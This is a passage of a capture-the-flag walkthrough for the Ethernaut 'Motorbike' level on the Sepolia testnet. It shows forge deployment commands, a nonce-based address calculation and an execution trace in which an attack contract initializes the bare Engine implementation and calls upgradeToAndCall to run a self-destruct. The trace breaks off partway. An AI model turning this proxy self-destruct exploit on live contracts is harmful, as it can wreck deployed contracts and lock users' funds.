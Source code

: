 [MotorbikeFactory.sol](https://github.com/OpenZeppelin/ethernaut/blob/c8ad2e45f6ce11d2d66fb699f07ffee1ab275577/contracts/src/levels/MotorbikeFactory.sol)

1. Deploy `MotorbikeSelfdestruct`.

```bash
forge create MotorbikeSelfdestruct --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# MotorbikeAttack contract (0x37260b352DaD12a21AaAa4f023b29D80896648ac)
# https://sepolia.etherscan.io/address/0x37260b352DaD12a21AaAa4f023b29D80896648ac

✗ python src/getContractAddressAndNonce.py
# Nonce for 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6: 3157
# Calculated Contract Address: 0x11cFA1CdFe3414f08cd4aFbf77D5E80Edc282ebd
# Calculated Contract Address nonce+1: 0x76E61f41AC8504B79688221268F757bDf718BCed
```

2. Execute `DeployMotorbikeAttack` script to create the contract and execute the attack() function.
```bash
forge script script/DeployMotorbikeAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0xF213335be754a4Ae580AFf725539549f0654091E
```

```bash
Traces:
  [1186145] DeployMotorbikeAttack::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [1145115] → new MotorbikeAttack@0xF213335be754a4Ae580AFf725539549f0654091E
    │   ├─ [681715] Ethernaut::createLevelInstance(0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6)
    │   │   ├─ [458264] 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6::createInstance(MotorbikeAttack: [0xF213335be754a4Ae580AFf725539549f0654091E])
    │   │   │   ├─ [264506] → new Engine@0x11cFA1CdFe3414f08cd4aFbf77D5E80Edc282ebd
    │   │   │   │   └─ ← [Return] 1321 bytes of code
    │   │   │   ├─ [102814] → new Motorbike@0x76E61f41AC8504B79688221268F757bDf718BCed
    │   │   │   │   ├─ [45370] Engine::initialize() [delegatecall]
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Return] 172 bytes of code
    │   │   │   ├─ [732] Motorbike::upgrader()
    │   │   │   │   ├─ [392] Engine::upgrader() [delegatecall]
    │   │   │   │   │   └─ ← [Return] 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6
    │   │   │   │   └─ ← [Return] 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6
    │   │   │   ├─ [638] Motorbike::horsePower()
    │   │   │   │   ├─ [298] Engine::horsePower() [delegatecall]
    │   │   │   │   │   └─ ← [Return] 1000
    │   │   │   │   └─ ← [Return] 1000
    │   │   │   └─ ← [Return] 0x00000000000000000000000076e61f41ac8504b79688221268f757bdf718bced
    │   │   ├─ [166515] 0x57d122d0355973dA78acF5138aE664548bB2CA2b::createNewInstance(Motorbike: [0x76E61f41AC8504B79688221268F757bDf718BCed], 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6, MotorbikeAttack: [0xF213335be754a4Ae580AFf725539549f0654091E])
    │   │   │   ├─ [159212] Statistics::createNewInstance(Motorbike: [0x76E61f41AC8504B79688221268F757bDf718BCed], 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6, MotorbikeAttack: [0xF213335be754a4Ae580AFf725539549f0654091E]) [delegatecall]
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Return] 
    │   │   ├─ emit LevelInstanceCreatedLog(player: MotorbikeAttack: [0xF213335be754a4Ae580AFf725539549f0654091E], instance: Motorbike: [0x76E61f41AC8504B79688221268F757bDf718BCed], level: 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6)
    │   │   └─ ← [Stop] 
    │   ├─ [45484] Engine::initialize()
    │   │   └─ ← [Stop] 
    │   ├─ [33717] Engine::upgradeToAndCall(0x37260b352DaD12a21AaAa4f023b29D80896648ac, 0x2b68b9c6)
    │   │   ├─ [7716] Engine::destruct() [delegatecall]
```